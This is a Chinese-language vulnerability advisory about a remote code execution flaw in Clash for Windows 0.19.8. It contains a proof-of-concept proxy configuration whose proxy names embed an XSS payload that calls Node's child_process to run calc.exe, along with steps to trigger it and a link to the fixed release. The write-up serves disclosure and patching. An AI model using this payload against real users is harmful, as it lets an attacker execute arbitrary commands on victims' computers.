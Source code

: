 ```yaml
---
title: Clash_for_windows远程代码执行
---
```


## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

crash_for_windows_pkg由 Electron 提供支持。如果 XSS 负载以代理的名义，我们可以远程执行受害者计算机上的任何 JavaScript 代码。

## 影响版本

0.19.8（0.19.9版本还有（mac目前没发现）

## POC

```
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
```

## 漏洞利用

1、导入POC配置文件
2、切换到"`Profiles`"
3、单击“`Proxies`”即可触发
![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/clash.png)

## 修复建议

作者已发布了修复版本，下载更新即可
[https://github.com/Fndroid/clash_for_windows_pkg/releases](https://github.com/Fndroid/clash_for_windows_pkg/releases)
